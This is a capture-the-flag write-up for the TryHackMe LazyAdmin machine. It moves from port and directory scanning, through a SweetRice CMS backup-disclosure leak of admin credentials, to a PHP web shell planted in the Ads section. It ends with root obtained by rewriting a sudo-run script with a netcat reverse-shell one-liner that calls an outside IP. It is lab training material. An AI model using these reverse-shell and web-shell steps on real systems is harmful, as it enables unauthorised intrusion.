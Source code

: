 # LazyAdmin (Easy)

- Exploit the Server Apache Linux:

![Untitled](Untitled.png)

- Scan ports and directory of the machine:

```bash
nmap -sV -vv -A -T4 <IP> -Pn
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCo0a0DBybd2oCUPGjhXN1BQrAhbKKJhN/PW2OCccDm6KB/+sH/2UWHy3kE1XDgWO2W3EEHVd6vf7SdrCt7sWhJSno/q1ICO6ZnHBCjyWcRMxojBvVtS4kOlzungcirIpPDxiDChZoy+ZdlC3hgnzS5ih/RstPbIy0uG7QI/K7wFzW7dqMlYw62CupjNHt/O16DlokjkzSdq9eyYwzef/CDRb5QnpkTX5iQcxyKiPzZVdX/W8pfP3VfLyd/cxBqvbtQcl3iT1n+QwL8+QArh01boMgWs6oIDxvPxvXoJ0Ts0pEQ2BFC9u7CgdvQz1p+VtuxdH6mu9YztRymXmXPKJfB
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC8TzxsGQ1Xtyg+XwisNmDmdsHKumQYqiUbxqVd+E0E0TdRaeIkSGov/GKoXY00EX2izJSImiJtn0j988XBOTFE=
|   256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILe/TbqqjC/bQMfBM29kV2xApQbhUXLFwFJPU14Y9/Nm
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

```bash
gobuster dir -u http://10.10.161.128/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -xtxt -t64
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.161.128/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 316] [--> http://10.10.161.128/content/]
/server-status        (Status: 403) [Size: 278]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

- We try go to /content

![Untitled](Untitled%201.png)

—> Now we have the name of website: “SweetRice”.

- We don’t have more any information about the credentials so we have to research to find the vuln and weakness of the website.
- We use `searchsploit` to research “SweetRice”

```bash
searchsploit SweetRice
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
SweetRice 0.5.3 - Remote File Inclusion          | php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulnerabilities       | php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File Download        | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload          | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure              | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery     | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / P | php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File U | php/webapps/14184.txt
------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

—> A lot of Vuln to exploit so first we will notice the vuln “Backup Disclosure” because maybe in the backup file we can find the credential.

![Untitled](Untitled%202.png)

—> We try the concept: Access to file mysql backup and download from the directory /inc/mysql_backup but we need to access through the directory /content which we scan directory in the enumuration.

![Untitled](Untitled%203.png)

- Now we open the file mysql_backup and find some information the credential.

![Untitled](Untitled%204.png)

—> We got the username is “manager” and password is the hash value 

- Dehash password: “Password123”
- We switch the another vuln. We knew that there are cms SweetRice has the vuln CSRF (Cross-Side Request Forgery) and we can execute PHP code. Try it!

![Untitled](Untitled%205.png)

- We have found that we could access /as to access page log in SweetRice. Now we use the credential we found to login.

![Untitled](Untitled%206.png)

![Untitled](Untitled%207.png)

—> Success!!!

- We read the vuln database CSRF to exploit it. We will manipulate Ads section to add PHP code in Ads file and through CSRF vuln we can execute PHP code. Let do it!!!

![Untitled](Untitled%208.png)

- Now we will ad the web PHP shell available into the code <?php ?> and run file. After file PHP executed we access page in /inc/ads/Hacked.php and catch the listener through netcat to get initial access.

![Untitled](Untitled%209.png)

![Untitled](Untitled%2010.png)

—> We got it!!!

# Privilege Escalation:

- First we can try command  `sudo -l`  to check file can run sudo with no password.

```bash
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

```bash
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

—> This file run perl script and first it will run /etc/copy.sh file. 

```bash
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.10 1234 >/tmp/f
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP_Machine> 4444 >/tmp/f" > copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl
```

```bash
$nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.75.150] from (UNKNOWN) [10.10.215.10] 51458
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
# exit
```

END!!!